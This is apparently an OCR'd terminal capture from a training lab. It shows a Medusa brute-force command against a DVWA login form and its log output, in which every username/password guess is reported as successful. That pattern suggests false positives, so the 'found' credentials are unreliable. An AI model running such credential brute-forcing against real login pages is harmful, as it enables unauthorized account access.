 2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 7 complete) Password: password (2 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: password [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 8 complete) Password: 123456 (3 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: 123456 [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 9 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: 123456 [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 10 complete) Password: msfadmin (2 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: msfadmin [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 11 complete) Password: qwerty (4 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: qwerty [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 12 complete) Password: qwerty (3 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: qwerty [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 13 complete) Password: password (4 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: password [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 14 complete) Password: password (4 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: password [SUCCESS]
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ medusa -h 10.0.2.5 -U users.txt -P pass.txt -M http \ -m PAGE: '/dvwa/login.php' \ -m FORM: 'username=^USER^&password=^PASS^&Login=Login' \ -m 'FAIL=Login failed' -t 6
Medusa v2.3_rc1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: password (1 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: password [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: 123456 [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: msfadmin (2 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: msfadmin [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: 123456 (3 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: 123456 [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 5 complete) Password: qwerty (4 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: qwerty [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 7 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: 123456 [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 8 complete) Password: qwerty (2 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: qwerty [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 9 complete) Password: password (3 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: password [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 10 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: 123456 [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 11 complete) Password: msfadmin (2 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: msfadmin [SUCCESS]
2025-10-26 11:30:23 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 12 complete) Password: qwerty (3 of 4 complete)
2025-10-26 11:30:23 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: qwerty [SUCCESS]